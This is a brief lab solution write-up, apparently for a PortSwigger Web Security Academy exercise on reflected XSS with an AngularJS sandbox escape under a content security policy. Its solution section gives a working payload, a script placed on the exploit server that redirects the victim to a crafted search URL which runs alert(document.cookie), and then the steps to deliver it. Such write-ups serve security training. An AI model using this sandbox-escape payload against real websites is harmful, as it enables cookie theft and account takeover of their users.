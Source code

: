 # Lab: Reflected XSS with AngularJS sandbox escape and CSP

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5189f85b-e2b7-4d11-91fa-c54c5f0a0303)

## Solution

Go to the exploit server and in the body section enter -
`<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>`

Then click on **store** and then **Deliver exploit to vitctm** to finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8f181830-03ea-4e0f-8b4c-75619deafca8)
